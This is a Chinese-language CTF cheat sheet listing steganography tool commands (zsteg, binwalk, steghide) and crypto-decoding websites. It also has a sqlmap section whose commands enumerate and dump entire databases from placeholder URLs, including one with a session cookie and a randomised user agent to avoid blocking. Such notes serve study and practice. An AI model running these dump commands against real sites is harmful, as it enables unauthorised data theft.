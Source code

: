 # 女婕思小抄
[toc]
## 解圖片工具
- [LSB ONLINE TOOL](https://georgeom.net/StegOnline/upload)
- exiftool
    - 用途：讀取圖片的 metadata（如 EXIF 資訊），常有 flag 藏在這裡。
    - `exiftool image.jpg`
- zsteg
    - 用途：分析 PNG、BMP 等圖片的 LSB 隱寫技術。
    - `zsteg image.png`
    - `zsteg -a image.png #自動掃描所有常見通道與隱寫方式`
    - `zsteg -E image.png #自訂掃描通道和位元層（如 b1,r）`
    - `zsteg --lsb image.png #列出所有可能存在的隱寫資訊`
    - `zsteg --bits N image.png #指定幾個最低有效位元來分析`
    - `zsteg -v image.png #顯示詳細輸出`
`
`
- strings
    - 用途：直接抓出圖片中的可見 ASCII 字串，有時 flag 會直接藏在圖片 metadata 或尾部。
    - `strings image.jpg | grep -i flag`
- binwalk
    - 用途：分析圖片中是否嵌入了其他檔案（例如 zip、PNG、MP3 等）。
    - `binwalk image.jpg`
    - `binwalk -Me image.jpg  # 多層遞迴解壓`
    - `binwalk -D='gzip:gz' image.jpg #解壓包含壓縮資料（如 gzip）`
- stegsolve
    - 打開圖片後，可以切換各種視角查看藏匿資訊。
- [steghide](https://seamiloak.github.io/2020/08/24/Steghide%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B%E5%8F%8A%E5%85%B6%E5%AF%86%E7%A0%81%E7%88%86%E7%A0%B4/)
    - 用途：藏有資料的圖片（如 JPEG）中提取藏匿內容。
    - `steghide info image.jpg #查看藏了什麼資訊`
    - `steghide extract -sf image.jpg #提取藏在圖片中的資料`
    - 執行後會詢問你是否有密碼（若有設密碼就要輸入），若成功，會提取出藏的資料，例如 flag.txt 或其他檔案。
    - `steghide extract -sf image.jpg -p yourpassword # 若已知密碼，直接加上`

## 滲透測試工具
### sqlmap
抓出資料庫名稱
```
sqlmap -u "http://example.com/item.php?id=1" --dbs
```
顯示資料表
```
sqlmap -u "http://example.com/item.php?id=1" -D <資料庫名稱> --tables
```
顯示欄位名稱
```
sqlmap -u "http://example.com/item.php?id=1" -D <資料庫名稱> -T <資料表名稱> --columns
```
抓取表內資料
```
sqlmap -u "http://example.com/item.php?id=1" -D <資料庫名稱> -T <資料表名稱> -C <欄位名稱> --dump
```
--dump-all 的意思：
自動執行以下步驟：

掃出所有資料庫（--dbs）

每個資料庫中的表（--tables）

每個表的欄位（--columns）

把每個表格的資料全部拉下來（--dump）
```
sqlmap -u "http://target.com/page.php?id=1" --dump-all --batch --threads=10 --random-agent
#--batch	非互動模式（自動選預設值）
#--threads=10	多執行緒，加速處理
#--random-agent	假裝成正常瀏覽器，避免封鎖
```

若目標需要登入才注入，搭配 cookie：
```
sqlmap -u "http://target.com/profile.php?id=1" --cookie="PHPSESSID=abcd1234" --dump-all
```
### nmap
### John the Ripper
### Hydra
### Netcat 


## 密碼學decode網站
### [CYBER CHEF](https://gchq.github.io/CyberChef/)
### [檢查是哪種hash](https://hashes.com/en/tools/hash_identifier)
### [md5 decode](https://10015.io/tools/md5-encrypt-decrypt#google_vignette)
### [sha1 decode](https://10015.io/tools/sha1-encrypt-decrypt)
### [sha256 decode](https://10015.io/tools/sha256-encrypt-decrypt)
### [rsa cipher](https://www.dcode.fr/rsa-cipher)
### [rot轉換器](https://zh.planetcalc.com/1434/)
### [解替換式密碼](https://quipqiup.com/)
### [RSA簽章解碼](https://redkestrel.co.uk/tools/decoder)

